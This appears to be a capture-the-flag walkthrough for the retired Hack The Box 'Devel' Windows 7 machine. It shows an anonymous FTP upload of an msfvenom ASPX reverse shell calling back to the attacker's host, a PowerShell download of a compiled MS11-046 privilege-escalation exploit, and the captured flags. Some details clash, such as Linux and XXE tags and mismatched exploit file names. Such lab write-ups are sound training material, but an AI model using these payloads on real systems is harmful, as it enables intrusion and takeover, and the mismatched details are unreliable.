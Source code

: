 ```yaml
---
layout: default
title: DEVEL
description: by Hack The Box
---
```


<h3 align="center">
This is quick walkthrough on how I've managed to root the retired devel machine from HTB. It's a Windows 7 machine that has an unpatched vulnerability.
</h3>

`Web Fuzzing`
`XXE`
`Linux`
`Web`
`Python`
`Source Code Review`
`Sudo Exploitation`

## Enumeration

1. Scan with nmap

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.5 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 20:03 EST
   Nmap scan report for 10.10.10.5
   Host is up (0.034s latency).
   Not shown: 998 filtered tcp ports (no-response)
   PORT   STATE SERVICE VERSION
   21/tcp open  ftp     Microsoft ftpd
   | ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | 03-18-17  01:06AM       <DIR>          aspnet_client
   | 03-17-17  04:37PM                  689 iisstart.htm
   |_03-17-17  04:37PM               184946 welcome.png
   | ftp-syst:
   |_  SYST: Windows_NT
   80/tcp open  http    Microsoft IIS httpd 7.5
   |_http-server-header: Microsoft-IIS/7.5
   |_http-title: IIS7
   | http-methods:
   |_  Potentially risky methods: TRACE
   Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
   ```

2. FTP - looks like we can login with user anonymous
   ```
   ftp 10.10.10.5
   ```
3. Let's try to upload a file

   ```
   (in Kali)
   ┌──(schoon3r㉿nexer)-[~/Engagements/HTB]
   └─$ echo "Hello World" > text.txt

   (in FTP)
   tp> ls
   200 PORT command successful.
   125 Data connection already open; Transfer starting.
   03-18-17  01:06AM       <DIR>          aspnet_client
   03-17-17  04:37PM                  689 iisstart.htm
   11-25-21  03:25AM                   12 text.txt
   03-17-17  04:37PM               184946 welcome.png
   226 Transfer complete.
   ```

4. Cool. Let's look at the other service that is open.
5. Port 80. Let's try it on the browser. >>> Looks like an IIS default page.
6. Let's try and go to the pages that was inside the ftp directory
   - http://10.10.10.5/iisstart.htm
   - http://10.10.10.5/text.txt

## Starting a FootHold

7. So from here... we want to get a foothold on the server. We know we can upload a file and we know we can view the file from the browser. Let's turn to MSFVENOM
   ```
   msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.6 LPORT=4444 -o reverse-shell.aspx
   ```
   - -p is the location of our payload
   - -f is the format of the payload. Its ASPX because of the webserver
8. That will save a file reverse-shell.aspx to your directory. What will this payload do??? It creates a reverse shell to our netcat listener.
9. Let's now upload this file using our FTP anonymous login
10. Now let's start a netcat listener
    ```
    nc -nvlp 4444
    ```
11. Let us now go back to the browser to start the reverse shell
    ```
    http://10.10.10.5/reverse-shell.aspx
    ```
12. You will see that you now got a reverse shell in your netcat listener window
13. Lets traverse the directory.
14. You will find out that you do not have permission to view Babis and Administrator directories. This means that we need privesc.

## Enumerating for PrivEsc

15. let's type in:

    ```
    c:\Users>cd Classic .NET AppPool
    cd Classic .NET AppPool
    Access is denied.

    c:\Users>systeminfo
    systeminfo

    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31 ��
    System Boot Time:          25/11/2021, 3:04:29 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                            [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     3.071 MB
    Available Physical Memory: 2.430 MB
    Virtual Memory: Max Size:  6.141 MB
    Virtual Memory: Available: 5.514 MB
    Virtual Memory: In Use:    627 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                            [01]: vmxnet3 Ethernet Adapter
                                    Connection Name: Local Area Connection 3
                                    DHCP Enabled:    No
                                    IP address(es)
                                    [01]: 10.10.10.5
                                    [02]: fe80::58c0:f1cf:abc6:bb9e
                                    [03]: dead:beef::23c
    ```

16. A few interesting thing here is that

    - Its a Windows 7 Build 7600
    - Hotfix: N/A
    - It is based on the X86 architecture

17. While this is a very old pc, seems funny that there are no patches on the machine. Let's google
    ```
    Windows 7 build 7600 priv esc exploit
    ```
18. The first 2 results are from Exploit-DB. Let's check out the Build 7601(x86) - Local Priv Esc... which is exactly what we want.

## PrivEsc

19. Download the exploit and read the instructions on how to compile the exploit in C
20. Install mingw-w64
    ```
    sudo apt-get install mingw-w64
    ```
21. Compile the C program you've downloaded
    ```
    i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
    ```
22. Now we need to copy this file... into the C:\ drive of the target machine. Let's turn on a simple http server and copy the file
    ```
    python3 -m http.server 7331
    ```
23. Now from the netcat listener window... lets copy the file
    ```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:7331/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
    ```
24. Let's verify if the file is copied? Great! Let's run it ~
    ```
    c:\Users\Public\Downloads>40564
    40564
    ```
25. Looks good! Let's try a few command to be certain we have root priv
    ```
    c:\Windows\System32>whoami
    whoami
    nt authority\system
    ```
26. Now we can get both user and root flags

    ```
    c:\Users\babis\Desktop>type user.txt.txt
    type user.txt.txt
    9ecdd6a3aedf24b41562fea70f4cb3e8

    c:\Users\Administrator\Desktop>type root.txt
    type root.txt
    e621a0b5041708797c4fc4728bc72b4b
    ```

# Reference

1. https://www.exploit-db.com/exploits/40564
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

# Summary

1. We enumerated the machine using nmap and found ports 21 and 80 open
2. We found that we can upload file using the anonymous login and we can execute those file within the webserver on port 80
3. We tried to get a foothold of the machine using an MSFVENOM payload with an aspx format.
4. Once we got the reverse shell, we immediately found that we dont have a privileged user.
5. To privesc... we enumerated the machine again and found that it is an unpatched Windows 7 machine with build 7600 (x86)
6. Googling for exploit we found a link to an exploit in exploit-db
7. Installed mingw to compile the C code into an executable program and thankfully the command to complile is already provided in the link.
8. We then started a simple http server so can transfer the file into the machine and downloaded the file using a powershell script.
9. After this, we found that we now have root priv.

<br><br>

[back to HOME](./)
